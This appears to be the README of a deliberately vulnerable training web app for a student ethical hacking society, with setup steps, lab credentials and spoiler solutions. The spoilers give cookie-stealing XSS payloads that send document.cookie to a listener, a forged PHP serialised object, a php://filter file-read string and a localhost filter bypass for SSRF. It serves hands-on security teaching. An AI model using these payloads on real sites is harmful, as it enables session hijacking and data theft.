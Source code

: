# Web-Hacking-Demo
A web application hacking sandbox challenge for [Sheffield Ethical Student Hackers](https://shefesh.com). Covering insecure deserialisation, SSRF, XSS, and more

## Setup

### With Docker

On EC2:

```
sudo yum update -y
sudo amazon-linux-extras install docker
sudo yum install docker
sudo service docker start
sudo systemctl enable docker
sudo usermod -a -G docker ec2-user
```

Restart session, then run:

```
sudo yum install git
git clone git@github.com:Twigonometry/Web-Hacking-Demo.git
cd Web-Hacking-Demo/
docker build -t web-hacking-demo .
docker run -dp 80:80 web-hacking-demo
```

To get a shell: `docker ps` for container id, then `docker exec -it [ID] /bin/sh`

### Manually

Install mysql: `sudo apt install mysql-server php-mysql`

Start service: `sudo systemctl start mysql.service`

Configure:
- `sudo mysql
- `CREATE USER 'sesh'@'localhost' IDENTIFIED BY 'SESHPassword123!';`
- `CREATE DATABASE challenge;`
- `GRANT ALL PRIVILEGES ON challenge.* TO 'sesh'@'localhost' WITH GRANT OPTION;`
- `FLUSH PRIVILEGES;`
- `exit`

Seed: `mysql -u sesh -p < seed.sql`

Launch: `php -S localhost:8000`

## Login

`sesh_admin`:`mylongpassword123?`

## Exploit XSS

The `/reviews` page allows posting reviews. Click one of the sublinks to render the reviews using different levels of user input sanitisation, and see if you can steal an admin cookie.

NOTE: you will need to login as an admin and visit the reviews page in a new browser session (try an incognito tab) and refresh the page after you submit your XSS payload for this to work.

<details>

<summary>Spoilers</summary>

For the unsanitised version, you can create an XHR or fetch request to steal a cookie:

`<script>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</script>`

For the sanitised version, script and iframe tags are removed. You can use uppercase SCRIPT tags:

`<SCRIPT>cookie = document.cookie; fetch('http://localhost:8001/?cookie=' + cookie).then(response => response.json()).then(data => console.log(data));</SCRIPT>`

Or use an img:

`<img src=x onerror="this.src='http://localhost:8001/?'+document.cookie; this.removeAttribute('onerror');">`

</details>

## Exploit Deserialisation

The Recipes section has a deserialisation vulnerability that allows reading a secret recipe that would normally be encrypted. This challenge was repurposed from last year's CTF.

<details>

<summary>Spoilers</summary>

Read the source code for the `get-recipe.php` and `create-recipe.php` files using the LFI in the first form field (submit `../get-recipe.php` etc).

This shows us how to submit a new secret recipe: `http://[URL]/create-recipe.php?recipe_recipe=O:12:%22SecretRecipe%22:4:{s:9:%22encrypted%22;b:0;s:5:%22title%22;s:4:%22Test%22;s:8:%22contents%22;s:4:%22Test%22;s:2:%22id%22;i:1;}`

This string defines a serialised `SecretRecipe` instance that references the secret recipe we want to steal from the database, but sets `encrypted` to false.

We can then use the ID given to us by the application and submit it to the "Construct Recipe from String in Database" field, where it is deserialised: `http://localhost:8000/get-recipe.php?recipe=&id=&string_id=[ID]`.

</details>

## Exploit File Inclusion

There is a file inclusion vulnerability on `/recipe-hash`

<details>

<summary>Spoilers</summary>

The `recipe-hash.php` file has an `include` statement that includes the contents of the `?hash=` parameter.

To read the config file:

`http://[URL]/recipe-hash.php?hash_input=hello&hash=php://filter/convert.base64-encode/resource=config.php`

</details>

## Exploit Server-Side Request Forgery (SSRF)

Try to use `/page-viewer.php` to view the `/local-only.php` page.

<details>

<summary>Spoilers</summary>

There is an SSRF on `/page-viewer.php` which has a badly implemented filter.

The phrases `127.0.0.1` and `localhost` are blocked, but an alternative can be used such as `127.1`:

`http://127.1:8000/local-only.php`

</details>